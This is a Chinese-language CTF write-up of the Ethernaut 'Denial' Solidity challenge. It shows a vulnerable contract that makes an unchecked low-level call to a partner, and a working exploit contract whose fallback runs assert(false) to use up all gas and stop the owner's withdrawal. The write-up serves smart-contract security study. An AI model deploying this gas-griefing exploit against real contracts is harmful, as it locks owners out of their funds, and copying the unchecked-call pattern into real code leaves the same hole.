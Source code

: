
## Denial

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract Denial {

        using SafeMath for uint256;
        address public partner; // withdrawal partner - pay the gas, split the withdraw
        address payable public constant owner = address(0xA9E);
        uint timeLastWithdrawn;
        mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

        function setWithdrawPartner(address _partner) public {
            partner = _partner;
        }

        // withdraw 1% to recipient and 1% to owner
        function withdraw() public {
            uint amountToSend = address(this).balance.div(100);
            // perform a call without checking return
            // The recipient can revert, the owner will still get their share
            partner.call{value:amountToSend}("");
            owner.transfer(amountToSend);
            // keep track of last withdrawal time
            timeLastWithdrawn = now;
            withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
        }

        // allow deposit of funds
        receive() external payable {}

        // convenience function
        function contractBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
    ```

目的是要阻止 owner 在 withdraw 的时候提取到资产

重入攻击没有打出来，但是可以通过让攻击合约的 fallback 触发 assert 异常，这样消耗掉所有的 gas 后就再没法正常向 owner 转账了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Denial */

    contract Exploit {
        Denial challenge;
        constructor(address payable addr) public {
            challenge = Denial(addr);
        }
        function exp() public {
            challenge.setWithdrawPartner(address(this));
            challenge.withdraw();
        }
        receive() external payable {
            assert(false);
        }
    }
    ```